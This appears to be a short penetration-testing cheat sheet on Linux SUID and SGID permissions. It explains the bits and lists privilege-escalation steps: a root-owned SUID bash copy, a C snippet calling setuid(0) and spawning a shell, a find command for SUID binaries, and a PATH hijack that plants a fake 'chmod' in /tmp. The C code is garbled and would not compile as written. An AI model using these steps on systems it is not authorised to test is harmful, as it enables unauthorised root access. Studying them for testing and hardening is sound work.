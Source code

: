 # SUID

## **Setuid \(SUID\)**

If SUID is set, the file will be executed with the privilege of the file user.

## **Setgid \(SGID\)**

File: the file will be executed with the privilege of the filegroup. Directory: files created within that dir will inherit group privilege.

These permissions are represented by the 'execute' part, and when set it will be 's'.

Each User has 3 user ids:

* Real id: UID
* EffectiveID: EUID
* SavedID: GID

### Usages

#### Rootbash SUID:

Copy of `/bin/bash` as `rootbash`, and make sure it's owned by root and suid is set.

Now it can be executed as `rootbash -p`

Custom:

```text
Init main() {
	Setuid(0);
	System("/bin/bash" -p)
}

#Compile
Gcc -o <name> <code_filename.c>
```

#### Find files by permissions type

`find / -perm -u=s -type f 2>/dev/null`

`./some-binary`

#### Using SUID "_where"_

1. Where root login is required to execute some commands/programs/scripts. 
2. Where you don’t want to give credentials of a particular user but want to run some programs as the owner.
3. Where you don’t want to use SUDO command but want to give execute permission for a file/script etc.

_**If there is any execution we may be able to gain root access by exploiting PATH variable.**_

```text
cd /tmp
echo '/bin/bash' > chmod
chmod 777 chmod
echo $PATH
export PATH=/tmp:$PATH
cd /usr/local/bin
./some-binary
```

